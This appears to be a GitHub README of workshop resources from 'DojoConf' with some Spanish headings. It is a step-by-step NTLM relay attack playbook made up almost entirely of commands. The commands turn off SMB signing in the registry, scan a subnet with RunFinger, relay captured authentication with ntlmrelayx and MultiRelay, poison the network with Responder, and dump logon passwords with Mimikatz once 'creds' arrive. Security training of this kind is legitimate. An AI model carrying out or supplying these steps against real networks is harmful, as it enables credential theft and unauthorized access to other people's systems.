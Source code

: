 # DojoConf-Recursos

Disable SMB Signing
```
reg add “HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanWorkStation\Parameters” /v “RequireSecuritySignature” /t REG_DWORD /d 0 /f
reg add “HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanWorkStation\Parameters” /v “EnableSecuritySignature” /t REG_DWORD /d 0 /f
reg add “HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters” /v “RequireSecuritySignature” /t REG_DWORD /d 0 /f
reg add “HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters” /v “EnableSecuritySignature” /t REG_DWORD /d 0 /f
```


Comando de Busqueda herramientas:
```
find /usr/share/responder/ -name "MultiRelay.py" -print
find /usr/share/responder/ -name "ntlmrelayx.py" -print
```

1. Identify network systems that do not require SMB message validation to detect machine with SMB signing:disabled.
```
python RunFinger.py -i 192.168.0.0/24
```
2. Configure Impacket’s NTLMrelayx to target those systems
```
echo "IP"  >> targets.txt
 ```   
 ```
 python MultiRelay.py -t 192.168.0.4 -u ALL -d
 ntlmrelayx.py -tf targets.txt --smb2support
 ```
3. Disable SMB and HTTP response poisoning in Responder and launch
```
cd /usr/share/responder
```
```
gedit Responder.conf
```
4. Open the Responder.conf file and set the value of SMB and HTTP to Off
```
responder -I eth0 -rv
responder -I eth0 -rdw
```
5. Wait for creds
6. Invoke standard Mimikatz
```
mimi sekurlsa::logonpasswords
```



